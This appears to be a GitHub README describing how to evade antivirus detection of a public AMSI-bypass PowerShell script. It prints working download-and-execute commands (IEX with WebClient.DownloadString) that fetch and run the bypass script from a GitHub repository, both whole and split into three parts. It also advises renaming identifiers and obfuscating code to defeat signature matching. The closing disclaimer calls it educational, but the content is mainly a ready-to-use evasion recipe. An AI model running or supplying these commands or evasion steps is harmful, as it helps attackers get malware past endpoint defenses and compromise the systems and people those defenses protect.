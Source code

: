 ## Simple AV Bypass Trick: Splitting the Original `POC.ps1` Script

If you try to execute the original `POC.ps1` script using `DownloadString`, it will likely get blocked by antivirus (AV). This happens because the script has been signatured in AV databases after being public for a while. However, the **technique itself is still valid**.

For example, the following command will be blocked by AV:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/POC.ps1")
```

## Why This Happens
Antivirus tools flag scripts like POC.ps1 because their content or behavior matches known signatures in their database. Once a script is identified as malicious, the signature is updated, causing AV tools to block it.

## How Attackers Bypass This

Attackers can still leverage the same technique and bypass AV by avoiding signature-based detection. Here’s how they do it:

- Split the Original Script
They split the script into multiple smaller files (e.g., hello1.ps1, hello2.ps1, and hello3.ps1) and then call them sequentially in a single command:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello1.ps1");
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1");
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1");
```

- Modify Variables and Functions
They rename variables, functions, and other identifiers in the script to prevent pattern-matching detection.

- Obfuscate the Code
They obfuscate the code further by encoding strings, breaking lines, or adding unnecessary characters and operations. This makes it harder for AV tools to recognize malicious intent.

## Effectiveness
In practice, splitting the script and applying even minimal obfuscation is often sufficient to evade AV detection. However, modern AV solutions with advanced behavioral analysis may still detect such techniques so the combinations of all 3 techniques can be quite powerfull.


**Disclaimer: This information is shared for educational purposes only to help understand security measures and how to better protect against such attacks.**
